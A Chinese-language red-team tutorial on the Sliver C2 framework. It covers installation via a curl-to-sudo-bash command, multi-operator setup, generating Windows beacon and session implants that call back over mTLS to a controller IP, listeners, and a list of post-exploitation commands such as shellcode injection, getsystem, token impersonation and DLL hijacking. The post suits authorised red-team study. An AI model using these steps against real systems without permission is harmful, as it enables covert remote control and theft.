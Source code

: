 ```yaml
---
title: Sliver（一）：Sliver基础
tags: Red Team
---
```


# 介绍

Sliver是一个开源的C2项目，用Golang开发。Sliver的操作与Metasploit的操作类似，但它支持多用户协同。与Cobalt Strike相比，它支持Macos、Windows、Linux客户端以及implant的生成，但它不具备GUI界面，官方提供了一个GUI项目，但是目前已经废弃。项目地址：https://github.com/BishopFox/sliver。

总体来说作为CS的开源替代品是非常好的选择，且二开相对简单，适合作为个人或团队的定制C2框架。

# 安装

在Linux服务器中执行 `curl https://sliver.sh/install|sudo bash` 即可完成安装，安装后主要会生成sliver-server、sliver-client和sliver三个可执行程序。

sliver-server在root目录下，是服务端程序，如果要实现多用户操作，必须启动此程序，后续新建用户等操作都需要在此程序下操作`sudo /root/sliver-server` 。

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108002.png)

用户端可以直接去github上下载对应架构的客户端https://github.com/BishopFox/sliver/releases。

sliver在终端模式下是具备自动补全功能的，因此可以多使用Tab。

# 多用户模式

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108864.png)

在Server端中新建用户：`new-operator --name client -l 198.19.249.24 -p 20000` 

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108139.png)

输入`multiplayer -l 20000` 启动指定端口的多用户模式。

将配置文件复制到client机器的~/.sliver-client/configs目录中，再启动sliver-client。

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108615.png)

# Beacons & Sessions

Sliver在远程控制上提供了Beacon模式和Session模式。

Session模式下，Sliver会和受控主机建立持续的连接，执行的命令会立刻返回结果，方便但容易被发现。

Beacon模式下，Sliver与Cobalt Strike一样，有休眠时间，执行的命令会排队，等待受控主机一定时间后执行并返回结果，相对较为隐蔽。

## implant生成

Sliver目前总共支持五种协议：mtls、http/s、dns、wireguard。

生成命令：

```jsx
generate beacon --arch amd64 --os windows --mtls 198.19.249.24:3306 --save ./test.exe 
```

如果想生成的是Session模式，去掉beacon即可。

生成时需要记住很多参数，为了方便，Sliver提供了Profiles来简化这个过程：

```jsx
profiles new --mtls 198.19.249.24:3306 --os windows --arch amd64 --format exe windows_default
```

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108039.png)

需要使用时执行`profiles generate --save ./test.exe  windows_default` 。

输出`implants`可以看到所有生成的implant：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108276.png)

## 监听

开启监听只需要使用对应implant的协议名 -l 端口号即可

```jsx
mtls -l 3306
```

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108534.png)

使用jobs可以看到当前开启的监听任务：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108189.png)

job1是sliver多用户模式下开启的grpc端口，用于多用户协同操作，job2就是刚刚开启的监听端口。

## 上线

在受控主机上点击木马后，server端和client端都会接到消息：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108052.png)

输入`beacons`可以看到上线的beacon的信息：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108892.png)

`use`命令可以进入该beacon，进入后可以执行`interactive` 转换出一个session，由于需要等待休眠时间，所以需要等待一会儿。

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108469.png)

转换完成后再执行`sessions` 可以看到相关信息：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108397.png)

`use`命令可以进入该session。

## 命令列表

```jsx
Sliver:
=======
  cat                查看文件
  cd                 切换目录
  chmod              修改文件或文件夹权限
  chown              修改文件或文件夹所属
  chtimes            修改文件的创建时间和修改时间
  close              不关闭进程的情况下关闭session
  download           下载文件
  execute            执行程序
  execute-shellcode  sliver进程里执行shellcode
  extensions         管理扩展
  getgid             获取 GID
  getpid             获取 session pid
  getuid             获取 session UID
  ifconfig           查看网络配置
  info               查看session信息
  interactive        beacon生成session
  kill               Kill session
  ls                 列出当前目录列表
  memfiles           列出当前 memfiles（unknown）
  mkdir              创建目录
  msf                在当前进程下执行 MSF payload
  msf-inject         往一个进程中注入 MSF payload
  mv                 文件移动或重命名
  netstat            输出网络连接信息
  ping               不使用ICMP，给木马发送回环消息
  pivots             给存活的session列出pivots（unknown）
  portfwd            TCP端口转发
  procdump           Dump进程内存
  ps                 列出进程列表
  pwd                打印当前目录
  reconfig           beacon/session恢复配置
  rename             给beacon/session重命名
  rm                 删除文件或目录
  rportfwd           反向端口转发
  screenshot         屏幕截图
  shell              开启shell
  shikata-ga-nai     二进制shellcode编码器
  sideload           在远程进程中加载和执行共享对象(共享库/DLL)
  socks5             socks5代理
  ssh                在远程主机上执行ssh命令
  terminate          在远程主机上关闭一个进程
  upload             上传文件
  whoami             获取当前用户
```

### Windows特定命令

```jsx
Sliver - Windows:
=================
  backdoor          使用shellcode感染一个远程的文件
  dllhijack         DLL劫持
  execute-assembly  在子进程中加载和执行.NET程序集
  getprivs          获取当前权限
  getsystem         获取一个NT AUTHORITY\SYSTEM的shell
  impersonate       模拟已登录的用户
  make-token        使用指定的凭据创建新的登录会话
  migrate           进程迁移
  psexec            在远程目标上启动一个sliver服务
  registry          操作windows注册表
  rev2self          Revert to self: lose stolen Windows token
  runas             在指定用户的上下文中运行一个新进程
  spawndll          在远程进程中加载和执行反射DLL
```